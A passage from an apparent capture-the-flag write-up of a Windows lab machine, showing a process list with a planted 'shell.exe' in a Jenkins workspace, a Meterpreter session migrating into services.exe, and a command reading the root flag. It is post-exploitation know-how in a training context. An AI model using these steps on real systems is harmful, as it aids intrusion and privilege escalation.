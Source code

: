 ```
 2912  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 2996  2624  shell.exe             x86   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\workspace\project\shell.exe
 3000  1204  powershell.exe        x86   0        alfred\bruce                  C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
```

Migrate to `services.exe`.

```
meterpreter > migrate 668
[*] Migrating from 2996 to 668...
[*] Migration completed successfully.
meterpreter > 
```

Then we find the flag:

```
meterpreter > cat Windows\\System32\\config\\root.txt
```
